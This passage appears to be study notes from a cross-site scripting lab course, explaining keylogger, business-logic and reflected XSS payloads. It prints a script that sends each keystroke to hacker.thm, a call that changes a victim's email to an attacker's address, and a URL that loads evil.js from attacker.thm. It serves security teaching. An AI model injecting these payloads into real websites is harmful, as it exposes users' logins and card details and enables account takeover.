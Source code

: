 The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload is installed on accepted user logins or credit card details.

```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
### Business Logic

This payload is a lot more specific than the above examples. This woeuld be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Now that the email address for the account has changed, the attacker may perform a reset password attack.

The next four tasks are going to cover the different types of XSS vulnerabilities, all requiring slightly different attack payloads and user interaction.
# Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without and validation.
## Example Scenario:

A website where you enter incorrect input, an error message is displayed. The content of the error message gets taken away from the **error** parameter in the query string and is built directly into the page source. 

```URL
https://website.thm/?error=Invalid Input Detected
```
```html
<div class="alert alert-danger">
	<p>Invalid Input Detected</p>
</div>
```

The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code.

```URL
https://website.thm/?error=<script src="https://attacker.thm/evil.js"></script>
```
```html
<div class="alert alert-danger">
	<p><script src="https://attacker.thm/evil.js"></script></p>
</div>
```

The vulnerability can be used as per the scenario in the image below:
